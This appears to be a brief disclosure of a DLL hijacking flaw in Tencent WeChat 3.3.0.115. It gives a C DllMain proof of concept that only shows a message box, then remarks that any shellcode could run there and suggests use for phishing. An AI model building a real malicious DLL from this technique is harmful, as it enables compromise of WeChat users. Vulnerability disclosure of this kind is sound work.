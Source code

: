 #DLL hijacking found in Tencent wechat, version 3.3.0.115

#demonstration

For example:

`////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		DisableThreadLibraryCalls(hModule);
		MessageBox(NULL, (LPCTSTR)TEXT("1"), (LPCTSTR)TEXT("1"), MB_OK);
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{

	}
	return TRUE;
}`

#You can define any code and shellcode to execute in the DLL's entry function!!

#Very simple, we can be used for rights protection or phishing!!!
